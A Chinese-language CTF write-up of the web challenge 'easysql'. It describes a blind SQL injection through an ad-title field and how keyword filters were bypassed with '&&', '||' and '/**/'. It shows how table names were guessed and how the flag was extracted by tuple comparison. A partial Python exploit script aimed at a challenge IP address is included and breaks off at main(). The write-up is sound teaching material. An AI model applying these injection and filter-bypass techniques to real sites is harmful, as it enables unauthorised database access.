 ### Web | easysql (833pt)
经测试和观察，~~不难~~发现广告名是是有注入点的，可以用 `'||{sql}||'` 的方式注入。然后广告提交之后，可以查看详情，通过观察这条广告是否正常显示，就可以知道 `{sql}` 的条件是否为真。所以可以用盲注。  

并且可以发现，广告名是有关键词过滤的，包括 `in`, `or`, `and`, `union`, `password` 等，其中 `and` 和 `or` 可以用 `&&` 和 `||` 绕过。  

然后由于屏蔽了 `in` 和 `or` 导致没有办法通过 `information_schema` 或 `mysql.innodb_table_stats` 查询表名和列名，且 MariaDB 没有 sys 库。  

故使用伟大的盲猜方法(指猜了好几个小时)，猜出里面有一个 `ads` 表，里面有 22 列；一个 `users` 表，有 `id`, `name` 和感觉有的 `password` 三列（但是并没有什么卵用，因为 admin 帐号啥都没有）。  

然后又使用盲猜大法(admin的md5搜到了极其相似的题目，考虑可能有flag字段/表/库)，找到了一个 `flag` 表，然后在未知列名的情况下，用 `SELECT (SELECT * FROM flag) >= (SELECT 1, {string})` 来盲注，就可以拿到一个没有区分大小写的 flag。   

小小爆破了一下flag，因为太菜了没不到大小写敏感的注入查询方法（过滤了bINary，MariaDB还没有json）  
然后又 xjb 枚举，发现 flag 只有 `sql` 的首位大写，即 `flag{Sql_1nj3cti0n_1s_s0_easy}`，提交可过。

``` python
import requests
import re

cookies = {'PHPSESSID': '_______________'}
RE = re.compile(r'detail\.php\?id=(\d+)')

def clear_list():
    requests.get('http://120.79.141.85:47930/empty.php', cookies=cookies)

def add_ads(title):
    global aid
    payload = {'title': title, 'content': 'Elaina is best', 'ac': 'add'}
    r = requests.post('http://120.79.141.85:47930/addads.php', cookies=cookies, data=payload)
    aid += 1
    assert '已发送申请' in r.text, title

def check_sql(sql):
    global aid
    if aid % 10 == 0:
        clear_list()
        add_ads('1')
    sql = sql.replace(' ', '/**/')
    add_ads(f"'||{sql}||'")
    requests.get(f'http://120.79.141.85:47930/index.php', cookies=cookies)
    r = requests.get(f'http://120.79.141.85:47930/detail.php', params={'id': str(aid)}, cookies=cookies)
    return '待管理确认' in r.text

class CharBinarySearch:
    def __init__(self):
        self.l = 0
        self.r = 128

    def is_done(self):
        return self.l + 1 >= self.r

    def middle(self):
        return (self.l + self.r) // 2

    def update(self, r):
        if r:
            self.l = self.middle()
        else:
            self.r = self.middle()

def main():
    global aid
```